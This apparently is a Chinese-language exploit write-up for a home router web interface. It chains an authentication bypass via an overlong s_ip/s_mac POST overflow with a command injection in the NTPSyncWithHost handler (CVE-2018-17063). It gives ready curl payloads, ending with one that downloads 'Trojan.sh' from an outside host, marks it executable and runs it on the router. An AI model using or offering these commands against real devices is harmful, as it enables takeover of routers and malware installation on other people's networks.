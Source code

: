 ![image-20211120112405776](https://z3.ax1x.com/2021/11/23/opM6sK.png)

对上述参数的长度没有任何检查

当遇到换行时while循环停止

构造过长的任意字符串会导致这段while循环+if语句错误转到到这一段分支

![image-20211120112601308](https://z3.ax1x.com/2021/11/23/opMcqO.png)

![image-20211120112653289](https://z3.ax1x.com/2021/11/23/opM2ZD.png)

而v2是我们在数据包中GET请求可以随意控制的

所以剩下的就不言而喻了

payload如下

```

首先,由于我们没法登录,无法提供用户名密码,所以需要token来让服务器维持会话

curl -s http://192.168.0.1/dir_login.asp  grep tokenid

curl -i -X POST http://192.168.0.1/d_wizard_step1_start.asp -d tokenid=NUM -d 's_ip=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' -d 's_mac=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
```

此时就进去后台了

![](https://z3.ax1x.com/2021/11/23/opMuVg.png)

然后操作一下,就可以把路由器设置覆盖掉

同时注意到 [CVE-2018-17063](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17063)

因此我们在设置覆盖后可以登录路由器后台设置时间日期的模块

![image-20211120113814682](https://z3.ax1x.com/2021/11/23/opMA2t.png)

这里的a3是可以任意操作的

可能的开发逻辑是:既然已经登录了路由器后台,且可以修改时间了,那么变相证明大概率是系统管理员,因此开发者图省事直接在后台的该模块中用了system函数,而且没有做任何检查,因此

```
curl -i -X POST http://192.168.0.1/goform/NTPSyncWithHost -d tokenid=NUM -d '`touch /tmp/test`=1' 
```

或者进一步的

```
curl -i -X POST http://192.168.0.1/goform/NTPSyncWithHost -d tokenid=NUM -d '`wget -P /tmp http://1.1.1.1/Trojan.sh; chmod +x /tmp/Trojan.sh;/bin/sh /temp/Trojan.sh`=1' 
```

至此结束